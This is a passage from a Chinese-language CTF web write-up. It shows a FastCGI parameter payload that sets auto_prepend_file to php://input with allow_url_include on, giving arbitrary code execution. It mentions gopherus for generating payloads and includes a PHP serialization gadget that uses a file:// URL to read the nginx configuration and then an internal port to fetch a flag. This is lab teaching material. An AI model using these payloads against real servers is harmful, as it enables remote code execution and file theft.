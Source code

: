 ```php
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

- 设置`auto_prepend_file = php://input`且`allow_url_include = On，`然后将我们需要执行的代码放在Body中，即可执行任意代码。
- 上面的所有`payload`可以用`gopherus`生成

## wen 310(file://读配置文件)

- 9000端口关着，无法用`fastcgi`
- 读一下`nginx`的配置文件，位置在`/etc/nginx/nginx.conf`

```php
<?php
class config{
	public $update_url = 'file:///etc/nginx/nginx.conf';
}
class dao{
	private $config;
	public function __construct(){
		$this->config=new config();
	}

}
$a=new dao();
echo base64_encode(serialize($a));
?>

```

![1677741919670.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677741930401-6eedf9b4-1322-42be-a538-09367448e841.png#averageHue=%23fcfbfa&clientId=u660710b8-790c-4&from=paste&height=154&id=ua73406a8&originHeight=308&originWidth=988&originalType=binary&ratio=2&rotation=0&showTitle=false&size=21579&status=done&style=none&taskId=uc890c0a1-f77d-4023-8d00-655cb5212bc&title=&width=494)

- 把`$update_url='http://127.0.0.1:4476';`访问4476端口读取flag

## 总结

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29405061/1677742506408-e2219477-7706-4306-868e-cb2f64760ccb.jpeg)
